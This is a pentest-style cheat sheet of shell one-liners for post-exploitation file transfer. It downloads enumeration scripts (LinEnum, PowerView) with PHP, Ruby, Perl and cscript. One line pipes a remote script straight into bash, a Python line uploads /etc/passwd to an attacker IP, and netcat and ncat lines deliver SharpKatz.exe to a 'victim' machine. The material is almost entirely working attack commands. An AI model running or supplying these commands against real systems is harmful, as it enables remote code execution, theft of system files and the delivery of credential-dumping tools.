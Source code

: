 PHP download with Fopen():
```shell
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

PHP download and pipe to bash:
```shell
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

Download a file with ruby:
```shell
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

Download a file with perl:
```shell
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

Download a file using JS and cscript.exe;
```cmd
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

Upload a file using Python:
```shell
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

# Netcat and Ncat
---
Open a listener on the victim machine with netcat:
```shell
nc -l -p 8000 > SharpKatz.exe
```

Open a listener on the victim machine with ncat:
```shell
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

Send a file to the victim with netcat:
```shell
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

Send a file to the victim with ncat:
```shell
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
